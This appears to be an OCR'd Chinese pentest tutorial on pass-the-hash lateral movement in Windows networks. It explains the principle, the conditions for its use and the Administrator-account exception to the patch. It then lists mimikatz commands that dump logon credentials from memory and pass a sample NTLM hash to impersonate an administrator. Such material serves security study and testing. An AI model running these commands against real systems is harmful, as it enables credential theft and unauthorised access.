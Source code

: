 # 内网安全——横向渗透mimikatz与pthHash传递

## PTH（pass-the-hash）HASH传递

1. pass-the-hash 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码。

2. pass the hash 原理：
   - 在 Windows 系统中，通常会使用 NTLM 身份认证
   - NTLM 认证不使用明文口令，而是使用口令加密后的 hash 值，hash 值由系统 API 生成(例如 LsaLogonUser)
   - hash 分为 LM hash 和 NT hash，如果密码长度大于 15，那么无法生成 LMhash。从 Windows Vista 和 Windows Server 2008 开始，微软默认禁用 LM hash
   - 如果攻击者获得了 hash，就能够在身份验证的时候模拟该用户(即跳过调用API 生成 hash 的过程)

3. 这类攻击适用于：
   - 域/工作组环境
   - 可以获得 hash，但是条件不允许对 hash 爆破
   - 内网中存在和当前机器相同的密码

4. 微软也对 pth 打过补丁，然而在测试中发现，在打了补丁后，常规的 Pass TheHash 已经无法成功，唯独默认的 Administrator(SID 500)账号例外，利用这个账号仍可以进行 Pass The Hash 远程 ipc 连接。

5. 如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功。

6. 从 windows 到 windows 横向 pth 这一类攻击方法比较广泛。

## mimitkaz pth

``` powershell
privilege::debug

sekurlsa::logonpasswords

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"> pass

word.txt
```

得到 hash 后进行

``` powershell
privilege::debug

sekurlsa::pth /user:administrator /domain:workgroup /ntlm:32ed87bdb5fdc

5e9cba88547376818d4
```

